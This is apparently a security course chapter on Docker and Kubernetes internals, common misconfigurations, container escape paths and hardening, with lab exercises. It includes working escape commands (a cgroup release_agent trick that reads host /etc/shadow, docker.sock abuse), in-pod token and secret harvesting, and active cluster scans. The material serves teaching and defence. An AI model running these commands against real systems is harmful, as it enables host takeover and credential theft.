

# Containers and Kubernetes

> Container ≠ VM. It's a Linux process with namespaces and cgroups. Grasping this is the difference between "looks secure" and "actually is".

## Docker and container internals

> Thinking of a container as a "lightweight VM" is wrong. It's **a regular Linux process** with some "masking" applied. Let me prove it.

### 1. Namespaces — isolation for the process

A namespace tells the kernel "this process sees only this subset of global resources". 8 types:

| Namespace | What it hides | How to try it |
|---|---|---|
| **mnt** | private mount table | `unshare -m bash` → mount, you only see your own |
| **pid** | own PID space (PID 1 = the container init) | `unshare --fork --pid --mount-proc bash; ps` |
| **net** | interfaces, routing, iptables, /proc/net | `ip netns add foo; ip netns exec foo ip a` (lo only) |
| **ipc** | IPC, semaphores, message queues, shared memory | `ipcs` only shows its own |
| **uts** | hostname and domainname | `unshare -u bash; hostname pippo` doesn't change host |
| **user** | UID/GID mapping (root in container ≠ root host) | `unshare -U bash; id` → nobody |
| **cgroup** | cgroup root view | `cat /proc/self/cgroup` shows a "fake" path |
| **time** | clock offset | recent (5.6+) |

**Concrete experiment** (on Linux):
```bash
# In a Docker container:
docker run --rm -it alpine sh
# Inside:
ps aux           # you only see the container's processes
ls /proc         # PIDs are remapped by the pid namespace
mount            # own mount table
ip a             # private interfaces
echo $$          # PID 1 (PID 1 INSIDE the container)

# From outside (host):
ps aux | grep <container command>
# You see the SAME process with a different host PID (e.g. 24531)
```

The same process has **two PIDs**: one in the namespace (PID 1) and one in the host namespace (24531). It's the **same kernel entity** seen through two different "lenses".

**Security:** a container with **`--pid host`** shares the host's PID namespace → sees all host processes → can `kill` anywhere. The same applies to `--net host` (sniffer on host network), `--ipc host`, etc. **All these flags open up escapes.**

### 2. cgroups — the resource limits

Cgroup v2 (kernel 4.5+, unified) is a tree under `/sys/fs/cgroup/`:

```
/sys/fs/cgroup/
├── memory.max              ← RAM limit
├── cpu.max                 ← CPU limit (quota/period)
├── io.max                  ← I/O bandwidth
├── pids.max                ← max processes
└── system.slice/
    └── docker-abc.scope/
        ├── memory.max  =  536870912    ← 512 MB
        ├── memory.current = 102400000
        └── cgroup.procs    ← list of PIDs in the cgroup
```

Add a process to the cgroup → the kernel enforces the limits. If it exceeds them, it gets **SIGKILL** (`memory.oom.kill`) or gets **throttled** (CPU).

**Security:** without cgroups, a container can run a `fork bomb` or `dd if=/dev/zero of=/tmp/big bs=1G count=100` and starve the host. Docker sets conservative defaults; but `--memory unlimited` becomes a problem again.

### 3. Capabilities — fractions of "root"

Historically "root" = omnipotence. Linux 2.2+ has 41 discrete **capabilities**. Examples:

| Cap | Allows | Container default? |
|---|---|---|
| `CAP_NET_ADMIN` | configure network, iptables, raw sockets | ❌ |
| `CAP_SYS_ADMIN` | almost everything (mount, namespace, ...) | ❌ — dangerous |
| `CAP_SYS_PTRACE` | ptrace on other processes | ❌ |
| `CAP_NET_BIND_SERVICE` | bind ports < 1024 | ✅ |
| `CAP_CHOWN` | chown without being owner | ✅ |
| `CAP_DAC_OVERRIDE` | bypass DAC permissions | ✅ |

Docker gives 14 caps by default, drops 27. **`--privileged` = all 41 → real root on host = trivial escape.**

See the current process's caps:
```bash
grep Cap /proc/self/status
capsh --print
getpcaps $$
```

### 4. Seccomp — the syscall filter

Docker loads a default **seccomp profile** (`default.json`) that blocks ~50 dangerous syscalls (e.g. `mount`, `umount`, `pivot_root`, `kexec_load`, `keyctl`, ...).

Modes:
- `SECCOMP_MODE_STRICT`: only `read`, `write`, `exit`, `sigreturn` (extreme sandbox).
- `SECCOMP_MODE_FILTER`: a BPF program decides for each syscall (allow / deny / errno / trap).

**`--security-opt seccomp=unconfined`** disables the filter → reopens all syscalls → prelude to escape.

### 5. LSM (AppArmor / SELinux) — MAC

An extra layer: AppArmor (Ubuntu/Debian) or SELinux (RHEL) enforces policies **at the kernel level** that not even container root can violate. Examples:
- container cannot write to `/proc/*/attr/`.
- container cannot `ptrace` certain pids.
- container has SELinux labels that restrict access to files with different labels.

**`--security-opt apparmor=unconfined`** → no AppArmor → one less piece of wall.

### 6. Layered filesystem (overlay2)

A Docker image is a **chain of read-only layers** (e.g. `ubuntu:22.04` has 3 base layers, each is a tar of a diff). When you launch a container, a **writable layer** is added on top via OverlayFS:

```
upperdir (rw, container)   ← every change ends up here
+---------------------------+
| layer N (image RO)        |
| layer N-1 (image RO)      |
| ...                       |
| layer 0 (base ubuntu)     |
+---------------------------+
```

See the overlay mount with `mount | grep overlay`. When the container is deleted → upperdir deleted → changes lost (unless you use a volume).

### Summary: what makes a container "isolated"

```mermaid
flowchart TB
    P[Container process] --> NS[Namespaces<br/>mnt · pid · net · ipc · uts · user · cgroup · time]
    P --> CG[cgroups<br/>CPU/RAM/IO/pids limits]
    P --> CAP[Capabilities<br/>subset of root]
    P --> SEC[seccomp<br/>~50 syscalls blocked]
    P --> LSM[LSM<br/>AppArmor / SELinux]
    P --> FS[OverlayFS<br/>RO layers + RW upper]
    NS --> K[Linux kernel<br/>shared with host!]
    CG --> K
    CAP --> K
    SEC --> K
    LSM --> K
    FS --> K
    style K fill:#3a0b0b,stroke:#ff4d4d
```



**The kernel is shared.** A kernel exploit (DirtyPipe, DirtyCow, OverlayFS race) executed from a container = host root. That's why `gVisor` (Google sandbox with a user-mode kernel) and `Kata Containers` (microVM per container) exist: they turn the container into a "lightweight VM" to avoid kernel sharing.

### Commands you'll live with
```bash
docker run --rm -it ubuntu:latest bash
docker ps
docker images
docker exec -it <id> bash
docker logs <id>
docker inspect <id>          # tons of config
docker network ls
docker volume ls
docker save img -o img.tar    # export image
docker save img | tar -xv     # inspect layers
```

Manual inspection of an image:
```bash
docker save myimg | tar -x -C myimg-dir
cd myimg-dir
ls                            # manifest.json, layer.tar for each
tar -tvf layer.tar | head     # contents of a layer
```

## Common vulnerabilities in containers

### Image misconfig
- **Run as root** (default). Add `USER 1000` non-root.
- **No verification**: image pull without signing. `:latest` changes.
- **CVE in image**: old image with unpatched base OS.
- **Secrets in env** or in `Dockerfile` (`ENV API_KEY=...`).
- **Useless tools**: shell + curl + wget make post-exploit easier. **Distroless** or **scratch** + static binary = minimal attack surface.
- **Missing `.dockerignore`** → secrets in the build context.
- **Cache poisoning** in CI/CD.

Scan: **Trivy**, **Grype**, **Snyk Container**, **Docker Scout**, **Anchore**.

```bash
trivy image alpine:3.18
trivy image --severity HIGH,CRITICAL myimg:1.0
trivy config Dockerfile
```

### Runtime misconfig
- `--privileged` — the container is host-effective root.
- `-v /:/host` — mount host root inside the container.
- `--cap-add SYS_ADMIN` or `ALL` — full capability.
- `--net host` — no network namespace.
- `--pid host` — sees all host processes.
- `--ipc host`.
- `/var/run/docker.sock` mounted → attacker calls the docker daemon → creates a `--privileged` container → instant escape.

```bash
docker run -v /var/run/docker.sock:/var/run/docker.sock alpine
apk add docker; docker run -v /:/host --privileged alpine chroot /host bash
```

### Container escape — typical paths

1. **Privileged container** + cgroup mount → `release_agent` trick (CVE-pre-2022).
2. **CAP_SYS_ADMIN** → mount, ptrace, abuse.
3. **Docker socket exposed**.
4. **runc CVE-2019-5736** — overwrite the runc binary from the container.
5. **runc CVE-2024-21626** ("Leaky Vessels") — fd leak allows escape via `WORKDIR`.
6. **CRI-O / containerd** historical CVEs.
7. **Kernel exploit** — kernel is shared with host; kernel LPE = host root.
8. **Misuse of `/proc/self/exe`** abuse.
9. **Full /proc** mount (not the default masked `/proc`).

Tools: **CDK** (Chinese container exploit kit), **deepce** (Container Enumeration), **botb**.

## Kubernetes — getting to the point

### Architecture



### Key objects
- **Pod**: 1+ co-located containers.
- **Deployment**: manages pod replicas.
- **Service**: network ABI (ClusterIP, NodePort, LoadBalancer).
- **Ingress**: HTTP routing.
- **ConfigMap / Secret**: config data / secrets (Secret is just base64, **not encrypted** by default! enable etcd encryption).
- **Namespace**: logical separation.
- **ServiceAccount**: identity for the pod → JWT token mounted at `/var/run/secrets/kubernetes.io/serviceaccount/token`.
- **Role / RoleBinding / ClusterRole / ClusterRoleBinding**: RBAC.
- **NetworkPolicy**: L3/L4 firewall per pod (requires a CNI that supports it — Calico, Cilium).

### Kubernetes attack surface

1. **Exposed API server** (NodePort, public LoadBalancer) without strong auth.
2. **Dashboard without auth** (historical, still found in the wild).
3. **kubelet API** (port 10250) exposed → `/exec` on arbitrary pods.
4. **etcd** exposed (port 2379) → all Secrets in cleartext (base64).
5. **Over-privileged Service Account** in a compromised pod → `kubectl ... -n kube-system` from inside.
6. **Privileged pod** → escape to the node.
7. **Container image registry** with weak auth.
8. **Helm chart** with default creds.
9. **Workload identity** → cloud IAM escalation (e.g. pod with access to Workload Identity in GKE = GCP role).

### Recon inside a compromised pod
```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default/api/v1/namespaces
kubectl auth can-i --list                       # if kubectl is around
kubectl auth can-i create pods --all-namespaces

# Look for "interesting" envs
env | grep -iE "key|secret|token|password"
# Mounts
mount
# Capabilities
capsh --print
# Privileged?
ls /dev | head                                  # if you see sda1 -> probably privileged
```

### Offensive K8s tools
- **kube-hunter** (penetration tester).
- **botb** (container) + **CDK**.
- **peirates**.
- **DeepCE**.
- **kdigger** (comprehensive recon).

### Defensive / hardening tools
- **kube-bench** (CIS Benchmark check).
- **kubescape** (config + RBAC + supply chain).
- **kubeaudit** (security audit).
- **Polaris**.
- **Falco** (runtime detection).
- **Tetragon** (eBPF based).
- **OPA Gatekeeper / Kyverno** (admission control policy as code).

### Example Kyverno policy
```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-privileged
spec:
  validationFailureAction: enforce
  rules:
    - name: privileged-not-allowed
      match: { resources: { kinds: [Pod] } }
      validate:
        message: "Privileged container not allowed"
        pattern:
          spec:
            containers:
              - =(securityContext):
                  =(privileged): "false"
```

## Container supply chain

### Image signing
- **Cosign** (sigstore) — keyless signing with OIDC, Rekor transparency log.
- **Notation** (Notary v2) — alternative.

```bash
cosign sign --key cosign.key myimg:1.0
cosign verify --key cosign.pub myimg:1.0
```

In K8s: admission policy that blocks unsigned images.

### SBOM
Software Bill of Materials for images: **Syft** generates SBOMs, **Grype** scans for CVEs.

```bash
syft myimg:1.0 -o spdx-json > sbom.json
grype sbom:sbom.json
```

### Reproducible builds, in-toto attestation
Cosign supports attestations: "this image was built by that pipeline on that commit". Verify in admission.

## Short Kubernetes hardening checklist

- [ ] etcd encryption at-rest enabled.
- [ ] RBAC enabled (default), least-privilege policy.
- [ ] PodSecurityStandards (PSS) "restricted" on prod namespaces.
- [ ] NetworkPolicy default deny + explicit allow.
- [ ] Admission control with Kyverno/OPA.
- [ ] Image signing required.
- [ ] No privileged pods without documented exception.
- [ ] Least-privilege ServiceAccount, no token auto-mount unless needed.
- [ ] Runtime detection (Falco/Tetragon).
- [ ] Audit log on, exported to SIEM.
- [ ] Workload identity instead of static keys for cloud.
- [ ] Updates: kube-apiserver/controller/scheduler/kubelet patched.

## Exercises

### Exercise 19.1 — "Easy" Docker escape
In a VM, run:
```bash
docker run --rm -it --privileged ubuntu bash
# inside
mount -t cgroup -o rdma cgroup /mnt/cg
echo '#!/bin/sh' > /tmp/x
echo 'cat /etc/shadow > /tmp/host-shadow' >> /tmp/x
chmod +x /tmp/x
echo "$(realpath /tmp/x)" > /mnt/cg/release_agent
echo 1 > /sys/fs/cgroup/notify_on_release
echo a > /mnt/cg/cgroup.procs   # trigger
cat /tmp/host-shadow
```

Explain what it does. Which flag mitigates it (`--cap-drop ALL --security-opt no-new-privileges`)?

### Exercise 19.2 — Docker socket abuse
Run a container mounting `/var/run/docker.sock`. Inside: `docker run -v /:/h --privileged alpine chroot /h sh`. Explain.

### Exercise 19.3 — K8s lab setup
**kind** (Kubernetes in Docker) or **minikube**. Create a local cluster. Launch a pod with a "loose" security context:
```yaml
securityContext:
  privileged: true
  capabilities: { add: ["SYS_ADMIN"] }
```

Inside the pod, try to escape to the host node.

### Exercise 19.4 — kube-hunter
```bash
kube-hunter --remote 10.0.0.10
kube-hunter --cidr 10.0.0.0/24 --active
```

What do you find?

### Exercise 19.5 — RBAC privesc
Set up a ServiceAccount with `create` on `pods` but nothing else. From a pod with that SA, run a pod that mounts host `/` → escape. Mitigation: PodSecurityStandards.

### Exercise 19.6 — Image scan
Build an image based on `node:14` (old, vulnerable). Scan it:
```bash
trivy image myapp:1.0
grype myapp:1.0
```

How many CVEs?

### Exercise 19.7 — Falco runtime
Install Falco in the cluster. In a pod, run: `apt update`. Falco should alert ("Package management process launched in a container"). Study the other default rules.

### Exercise 19.8 — Sigstore / Cosign
Generate a keypair:
```bash
cosign generate-key-pair
cosign sign --key cosign.key registry/myimg:1.0
cosign verify --key cosign.pub registry/myimg:1.0
```

Add a Kyverno policy that requires a signature → deploying an unsigned image is blocked.

### Exercise 19.9 — CTF
- **Kubernetes Goat** (Madhu Akula): https://madhuakula.com/kubernetes-goat/ — guided vulnerable scenarios.
- **TryHackMe**: "**Cloud K8s**" room.
- **WrongSecrets** (multi-arch challenge): https://github.com/OWASP/wrongsecrets.

## Key concepts

1. **Container ≠ VM**: it's an isolated process. Escape is kernel exploit or config misuse.
2. **`--privileged` or docker.sock = easy escape**.
3. **K8s RBAC** is the security plane, keep it minimal.
4. **ServiceAccount token in a pod** = keys to the kingdom if privileges are too broad.
5. **Admission control + PSS + NetworkPolicy** = baseline.
6. **Supply chain (image signing, SBOM)** isn't optional in 2026.
7. **Runtime detection (Falco/Tetragon)** works as EDR for K8s.

Next: the wireless and radio world.
